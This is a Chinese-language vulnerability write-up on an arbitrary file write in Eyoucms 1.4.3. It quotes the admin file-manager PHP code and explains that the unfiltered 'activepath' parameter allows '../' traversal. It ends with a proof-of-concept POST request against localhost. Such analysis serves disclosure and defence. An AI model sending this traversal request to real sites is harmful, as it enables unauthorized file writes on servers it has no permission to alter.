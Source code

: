 Eyoucms 1.4.3 任意文件写入
==========================

一、漏洞简介
------------

可写入html,css,js,txt文件，总体来说比较鸡肋。

二、漏洞影响
------------

Eyoucms 1.4.3

三、复现过程
------------

### 漏洞分析

漏洞点只对`filename`进行过滤，而忘了`activepath`也可以`../`进行跳转
`application/admin/controller/Filemanager.php`

      if (IS_POST) {
             $post = input('post.', '', null);
             $content = input('post.content', '', null);
             $filename = !empty($post['filename']) ? trim($post['filename']) : '';
             $content = !empty($content) ? $content : '';
             $activepath = !empty($post['activepath']) ? trim($post['activepath']) : '';

                 ... ...

             $r = $this->filemanagerLogic->editFile($filename, $activepath, $content);
             if ($r === true) {
                 $this->success('操作成功！', url('Filemanager/index', array('activepath'=>$this->filemanagerLogic->replace_path($activepath, ':', false))));
                 exit;
             } else {
                 ... ...

跟进`editFile`函数

    application/admin/logic/FilemanagerLogic.php
     public function editFile($filename, $activepath = '', $content = '')
     {
         $fileinfo = pathinfo($filename);// pathinfo获取后缀
         $ext = strtolower($fileinfo['extension']);

         ......

         /*允许编辑的文件类型*/
         if (!in_array($ext, $this->editExt)) { //<<<<<基于白名单，暂时没有想到绕过的方法>>>>>
             return '只允许操作文件类型如下：'.implode('|', $this->editExt);
         }
         /*--end*/

         $filename = str_replace("..", "", $filename);// 仅对filename进行过滤
         $file = $this->baseDir."$activepath/$filename"; // 此处直接拼接产生漏洞
         if (!is_writable(dirname($file))) {
             return "请把模板文件目录设置为可写入权限！";
         }
         if ('css' != $ext) {
             $content = htmlspecialchars_decode($content, ENT_QUOTES);
             $content = preg_replace("/(@)?eval(\s*)\(/i", 'intval(', $content);//
             // $content = preg_replace("/\?\bphp\b/i", "？ｍｕｍａ", $content);
         }
         $fp = fopen($file, "w");
         fputs($fp, $content);
         fclose($fp);
         return true;
     }

### 漏洞复现

### poc

     POST /eyoucms/login.php?m=admin&c=Filemanager&a=newfile&lang=cn HTTP/1.1
     Host: 127.0.0.1
     User-Agent: Mozilla/5.0 (X11; Linux i686; rv:67.0) Gecko/20100101 Firefox/67.0
     Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
     Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
     Accept-Encoding: gzip, deflate
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 94
     Origin: http://127.0.0.1
     Connection: close
     Referer: http://127.0.0.1/eyoucms/login.php?m=admin&c=Filemanager&a=newfile&activepath=%3Atemplate%3Aplugins%3Atest&lang=cn
     Cookie: home_lang=cn; admin_lang=cn; PHPSESSID=h6k34lgf1svcatllongehqqdt0; workspaceParam=index%7CFilemanager; XDEBUG_SESSION=18705
     Upgrade-Insecure-Requests: 1

     activepath=%2Ftemplate%2Fplugins%2Ftest/../../../uploads/tmp&filename=newfile.htm&content=test
